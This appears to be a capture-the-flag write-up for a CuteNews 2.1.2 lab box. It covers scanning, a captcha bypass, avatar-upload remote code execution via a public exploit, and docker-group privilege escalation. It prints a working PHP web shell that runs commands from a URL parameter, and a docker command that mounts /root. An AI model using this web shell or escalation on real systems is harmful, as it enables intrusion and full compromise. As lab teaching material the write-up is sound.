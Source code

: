 # zSecurity Cute

***

## Difficulty == Medium

![httptryhackme comjrzsecurityctf2](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/6efcd269-7e9c-4d17-8ea1-5be1850d6812)

***

Running our nmap scan we have 

```shell
# Nmap 7.94 scan initiated Fri Sep 15 07:13:45 2023 as: nmap -p- -sVC --min-rate=100 -T4 -v -oN nmap.txt 10.10.118.131
Increasing send delay for 10.10.118.131 from 5 to 10 due to 11 out of 25 dropped probes since last increase.
Warning: 10.10.118.131 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.118.131
Host is up (0.13s latency).
Not shown: 65525 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5c:98:a2:10:30:e3:65:4e:88:96:05:7b:b3:9d:0f:3c (RSA)
|   256 de:fd:60:5f:39:b3:c4:c6:7f:aa:bc:5c:64:7c:7c:e2 (ECDSA)
|_  256 00:41:7d:63:29:57:36:64:bc:00:ec:8f:e4:41:5f:d0 (ED25519)
80/tcp    open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-title: Please Login / CuteNews
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
4343/tcp  filtered unicall
6245/tcp  filtered unknown
12512/tcp filtered unknown
18111/tcp filtered unknown
27523/tcp filtered unknown
29407/tcp filtered unknown
45422/tcp filtered unknown
60967/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 15 07:25:24 2023 -- 1 IP address (1 host up) scanned in 698.96 seconds
```

Navigating to port 80, we have a login page, i tried several default credentials but non seems to work

![](https://i.imgur.com/I9rFnZI.png)

So i decided to **"Register"** but we need some kind of captcha test, which we don't have because this website doesn't seem to have any captcha running

![](https://i.imgur.com/NWBlteg.png)

I decided to run a directory bruteforce and we have some interesting files on this server including a `captcha.php` page, Right from here have started to see shell already, lmfao 😂

![](https://i.imgur.com/7eqFs12.jpg)

Navigating to `/captcha.php` we have a text, which literally looks like the text we need for this registration, One thing i also noticed is if you refresh this page, you get a different text

![](https://i.imgur.com/PoXetHo.png)

So i created an account with the username and password as `test:test1` and we were logged in

![](https://i.imgur.com/prGbbbr.png)

Clicking the **Personal Options** menu takes us to where we can edit our profile

![](https://i.imgur.com/BxgZ69c.png)

We can see here that we can upload an avatar , This could thereforefor lead to a potential RCE vulnerability, In which Enumerating the CMS version, `Cutenews 2.1.2` ,
gives us an RCE exploit on [github](https://github.com/ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE).

![](https://i.imgur.com/bObO9rl.png)

Make sure to clone into the exploit directory and then change the details in the `rev.php` file to your VPN IP and desired port :

![](https://i.imgur.com/ev4GtWG.png)

We can then go ahead and start up our listener then launch our exploit as shown in the image below

![](https://i.imgur.com/XrRFNvj.jpg)

Oops, well we didn't get a shell because the web server is not executing this file directly, it is passing it to another IP ADDRESS (I noticed this when i did upload a file in the legal way 😂)

![](https://i.imgur.com/uDnSj6r.png)

![](https://i.imgur.com/GSxkp4R.png)

Now we can launch our exploit again and then navigating to the path which our exploit was uploaded to manually

![](https://i.imgur.com/BcNWvJs.jpg)

![](https://i.imgur.com/F3kCe9n.png)

Note that i did change the code in `shell.php` as shown below

```PHP
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Now we can upload our PHP, Python, Bash or even NC shell through this web shell and get our reverse shell back (I used PHP ☢️)

![](https://i.imgur.com/kXghOcO.png)

We finally got the user flag in the user `jim` home's directory, we can then move on to privilege escalation

![](https://i.imgur.com/OV1qDrg.png)

![](https://i.imgur.com/bvx8CKW.gif)

***
### Privilege Escalation

Running the `id` command we can see that www-data belongs to the supplementary group `docker`. 

![](https://i.imgur.com/KRmVbhf.png)

As shown by [securiumsolutions](https://securiumsolutions.com/docker-privilege-escalation/) , we can get root by using this payload ` docker run -v /root:/mnt -it alpine` , as shown below 👇

![](https://i.imgur.com/ghOZvRb.png)

Note that when you do privilege Escalation with docker or container services, the root flag is always stored at `/mnt`, Have Fun 😘

![](https://i.imgur.com/ypxtZBV.gif)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


